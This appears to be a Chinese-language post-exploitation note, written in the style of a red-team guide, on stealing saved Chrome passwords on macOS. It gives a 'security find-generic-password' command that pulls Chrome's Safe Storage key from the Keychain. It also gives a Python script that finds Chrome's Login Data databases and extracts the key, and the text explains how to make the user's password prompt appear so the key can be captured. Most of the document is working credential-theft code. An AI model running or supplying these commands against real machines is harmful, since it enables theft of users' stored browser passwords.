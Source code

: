 获取加密密钥

```
security 2>&1 > /dev/null find-generic-password -ga 'Chrome' | awk '{print $2}'
```

在用户侧会弹框输入密码后可以看到加密密钥,这里测试直接下发命令不能触发弹框,可以通过脚本去触发

![](./../img/mac/Untitled%207.png)

![](./../img/mac/Untitled%208.png)

触发弹框提取的脚本

```
import sqlite3, os, binascii, subprocess, base64, sys, hashlib, glob

loginData = glob.glob("%s/Library/Application Support/Google/Chrome/Profile*/Login Data" % os.path.expanduser("~"))
if len(loginData) == 0:
    loginData = glob.glob("%s/Library/Application Support/Google/Chrome/Default/Login Data" % os.path.expanduser("~")) #attempt default profile

print(loginData[0])
safeStorageKey = subprocess.check_output("security 2>&1 > /dev/null find-generic-password -ga 'Chrome' | awk '{print $2}'", shell=True).decode().replace("\n", "").replace("\"", "")
# .replace("\n", "").replace("\"", "")
print(safeStorageKey)

if safeStorageKey == "":
    print("ERROR getting Chrome Safe Storage Key")
    sys.exit()
```
